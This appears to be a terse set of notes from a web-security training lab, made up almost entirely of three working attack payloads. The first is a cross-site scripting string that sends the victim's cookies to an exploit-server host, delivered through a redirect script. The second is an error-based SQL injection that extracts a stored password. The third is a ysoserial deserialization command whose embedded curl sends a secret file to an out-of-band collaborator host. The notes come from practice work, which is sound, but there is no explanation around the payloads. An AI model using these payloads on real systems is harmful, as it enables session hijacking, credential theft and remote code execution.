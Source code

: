 1.

payload: `"-fetch('https://exploit-0ad8002e0436378180812af8014d0063'+decodeURIComponent('%2E')+'exploit-server'+decodeURIComponent('%2E')+'net/exploitabc?cookie='+document['cookie'])}//`

<script>
location='https://0a7c00030469134c80543acb00690098.web-security-academy.net/?SearchTerm=%22-fetch%28%27https%3A%2F%2Fexploit-0af70033040613b0804139e601000080%27%2BdecodeURIComponent%28%27%252E%27%29%2B%27exploit-server%27%2BdecodeURIComponent%28%27%252E%27%29%2B%27net%2Fexploitabc%3Fcookie%3D%27%2Bdocument%5B%27cookie%27%5D%29%7D%2F%2F'
</script>

2.
payload: `CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)`

3. 

payload 
```bash
java -jar ysoserial.jar CommonsCollections6 'curl -d @/home/carlos/secret ij5zpg5
74rhzawjanoer5ut3buhl5dt2.oastify.com' | gzip | base64 -w 0 > text.txt
```